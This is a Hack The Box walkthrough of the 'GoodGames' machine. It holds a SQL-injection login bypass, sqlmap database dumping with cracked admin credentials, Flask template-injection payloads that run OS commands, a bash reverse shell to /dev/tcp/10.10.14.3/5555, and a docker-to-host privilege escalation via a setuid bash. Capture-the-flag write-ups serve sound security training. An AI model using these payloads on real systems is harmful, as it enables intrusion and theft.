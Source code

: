 # Hackthebox - Goodgames

- Linux

![Good Games](../.res/HTB-GoodGames.png)

- [Box on HTB](https://app.hackthebox.com/machines/446)

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T5 -sC -sV -O -p- 10.10.11.130
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-23 19:48 EDT
Nmap scan report for 10.10.11.130
Host is up (0.024s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.3 - 5.4 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: goodgames.htb

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.88 seconds
```

## Port 80

- We have a video game website  
![image](https://user-images.githubusercontent.com/96747355/164950274-5e2afafa-4f06-40d8-ae16-f0c22b7312b7.png)  

We have a SQL injection that allows us to bypass login.
- Request
```
POST /login HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://10.10.11.130
Connection: close
Referer: http://10.10.11.130/
Upgrade-Insecure-Requests: 1

email=' or 1=1-- -&password=eeeee
```

- Response

```
[STRIPPED]
                   <h1 class="text-main-1" style="font-size: 50px;">Login Successful</h1>

                    <div class="nk-gap"></div>
                    <h2 class="h4">Welcome admintest</h2>

                    <div>Redirecting you to profile page...</div>
                    <div class="nk-gap-3"></div>
[STRIPPED]
```

- Now in our profile page we have settings, it requires de change the /etc/host file though `10.10.11.130    internal-administration.goodgames.htb`
This page has another login thoug so we need to try to dump some data with SQLi  
![image](https://user-images.githubusercontent.com/96747355/164950482-48efcc90-a2c9-4bc6-817b-58c9dd7c2fe0.png)  
- With union we can actually dump some interesting things: `email=' union select 1,2,3,database()-- -&password=eeeee`
  - the current database is main
- We can just save the request in a file and use sqlmap to dump the db
  - In burp we right click on a request (without sql injection) save item  
  ![image](https://user-images.githubusercontent.com/96747355/164950738-cc722c5a-6146-497c-a3ec-5334b52057c9.png)  
  - Save it as request and then we just have to pass it to sqlmap this way `sqlmap -r request -p email` I manually with burp repeater saw tha the database name was main so I can dump it this way `sqlmap -r request -p email --dump -D main`

### SQLmap results

We get the admin hash this way!
```
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2  | test  | test@test.com       | 098f6bcd4621d373cade4e832627b4f6 |
+----+-------+---------------------+----------------------------------+
```
- We put the hash in crackstation and get the password this way `superadministrator`  
- ![image](https://user-images.githubusercontent.com/96747355/164950810-96d995ad-7fb5-4546-9071-53732b2cde41.png)  

## Volt

- Using the password we can now login to volt  
![image](https://user-images.githubusercontent.com/96747355/164950857-039fa582-2e8b-42a6-92bf-bee93f619107.png)  

- After a look on the platform we can interact in the settings and modify the full name  
![image](https://user-images.githubusercontent.com/96747355/164951414-5e68efef-312f-4dc0-8569-ebcfff451db9.png)  
So this is an injection point with something actually reflected to us. If we look for common flask exploitation we can find an article about [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
If we try the first paylaod mentioned in the article using burp repeater it seems to work:  
![image](https://user-images.githubusercontent.com/96747355/164951469-b8892648-7638-4cc7-9286-e99e9d65e5c8.png)  
We can see that `{{7*7}}` gives 49
- This way we can get the config using `{{config}}`  
```                           
&lt;Config {&#39;ENV&#39;: &#39;production&#39;, &#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;S3cr3t_K#Key&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: &#39;/&#39;, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: False, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_COOKIE_SAMESITE&#39;: None, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: None, &#39;TRAP_BAD_REQUEST_ERRORS&#39;: None, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: False, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None, &#39;MAX_COOKIE_SIZE&#39;: 4093, &#39;SQLALCHEMY_DATABASE_URI&#39;: &#39;sqlite:////backend/project/apps/db.sqlite3&#39;, &#39;SQLALCHEMY_TRACK_MODIFICATIONS&#39;: False, &#39;SQLALCHEMY_BINDS&#39;: None, &#39;SQLALCHEMY_NATIVE_UNICODE&#39;: None, &#39;SQLALCHEMY_ECHO&#39;: False, &#39;SQLALCHEMY_RECORD_QUERIES&#39;: None, &#39;SQLALCHEMY_POOL_SIZE&#39;: None, &#39;SQLALCHEMY_POOL_TIMEOUT&#39;: None, &#39;SQLALCHEMY_POOL_RECYCLE&#39;: None, &#39;SQLALCHEMY_MAX_OVERFLOW&#39;: None, &#39;SQLALCHEMY_COMMIT_ON_TEARDOWN&#39;: False, &#39;SQLALCHEMY_ENGINE_OPTIONS&#39;: {}}&gt;
```
- These slides are also quite helpful, if we try this payload we get the "id" and we are root right away `name={{ namespace.__init__.__globals__.os.popen('id').read() }}`
- Lets grab the flags `name={{ namespace.__init__.__globals__.os.popen('cat /home/augustus/user.txt').read() }}`
- I can not grab the root flag.
- Let's try to get a shell
- We got a shell from the web application (not burp) using this paylaod `{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.3/5555 0>&1"').read() }}`  
- Then we upgraded our shell 
```
script /dev/null -c bash
ctrl Z
stty raw -echo; fg
reset
```
OR
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

- Than we can make a ping sweep to look for where is the reak machine as we are in a docker container (hence the docker file in the folder)
```
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
![image](https://user-images.githubusercontent.com/96747355/164954211-c899af5a-6b04-44b5-9d7d-c4548c861c73.png)  
- if we ssh with augustus and the same password on 172.19.0.1 we get a user shell

## Privesc

- So we are in 2 env one in a docker with root rights and one in the actual machine with just user rights, let's abuse this to our advantage.
  - Take another reverse shell to the docker (now we have 2 shells)
  - In our augustus shell `cp /bin/bash .`
  - In our root docker shell `chmod 4777 bash`
  - In our augustus `./bash -p`
  - We should be root!
- Let's grab the flag `cat /root/root.txt`

